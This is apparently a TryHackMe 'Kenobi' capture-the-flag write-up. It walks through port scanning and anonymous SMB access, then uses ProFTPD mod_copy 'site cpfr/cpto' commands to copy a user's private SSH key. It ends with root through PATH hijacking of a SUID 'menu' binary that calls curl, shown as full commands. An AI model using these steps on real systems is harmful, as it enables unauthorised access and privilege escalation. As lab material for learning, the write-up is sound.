



# Kenobi (THM)

- https://tryhackme.com/room/kenobi
- March 17, 2023
- easy

---

## Enumeration

### Nmap

```
PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack ProFTPD 1.3.5
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind     syn-ack 2-4 (RPC #100000)
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     syn-ack 2-3 (RPC #100227)
```

### SMB

- check with smbmap

```
Disk       	Permissions	Comment
----        	-----------	-------
print$     	NO ACCESS	Printer Drivers
anonymous  	READ ONLY	
IPC$       	NO ACCESS	IPC Service (kenobi server (Samba, Ubuntu))
```

- enter `anonymous` file share and found log.txt
- get `log.txt` to local machine to analyse 
- Summary of log.txt

```
- create ssh id_rsa under /home/kanobi/.ssh directory
- ProFTPD installation at port 21
- smb [anonymous]
    path = /home/kenobi/share
    browseable = yes
    read only = yes
    guest ok = yes

```

### FTP

- Version -> ProFTPD 1.3.5
- from searchsploit, can found 4 vulns



- This FTP version is vulnerable to copy any file from system
- there is also `id_rsa` inside `/home/kenobi/.ssh/id_rsa` which is known from `log.txt`
- enter ftp with `ftp $IP`
- login failed but `site help` command works

1. There is `id_rsa` file under `/home/kenobi/.ssh`
2. The smb anonymous share is mounted under `/home/kenobi/share`
3. So, copy the id_rsa under smbshare that we can enter

```sh
site cpfr /home/kenobi/.ssh/id_rsa # it shows exists
site cpto /home/kenobi/share/id_rsa # copy under share
```
- then exist and enter smb anonymous login and found id_rsa
- `get id_rsa` and then exists 
- there is `id_rsa` file in local machine
- chmod 600 to id_rsa

## User Access

- enter ssh as kenobi user with id_rsa

```sh
$ ssh kenobi@$IP -i id_rsa
```
- `sudo -l` can't run as we don't know kenobi's password
- find suid 
- `find / -perm -4000 2> /dev/null`
- found `/usr/bin/menu` which is not normal unix binary
- run `menu`

```sh
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :

```
- `strings /usr/bin/menu` found these



- `curl`, `uname` are running without a full path and we can use this fact to escalate our user

```sh
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo '/bin/bash' > curl 
kenobi@kenobi:/tmp$ chmod +x curl
```
1. Go to tmp folder
2. Create curl file and inside put `/bin/bash` 
3. make it executable and if execute, just call bash shell. If root user runs it, we'll get root shell

```sh
kenobi@kenobi:/tmp$ PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
- Change the PATH variable by adding /tmp folder, so that system will check under tmp folder first
   

## Root Access

- just run `menu` and choose 1 as option 1 will use `curl`
- Get root shell as root user



---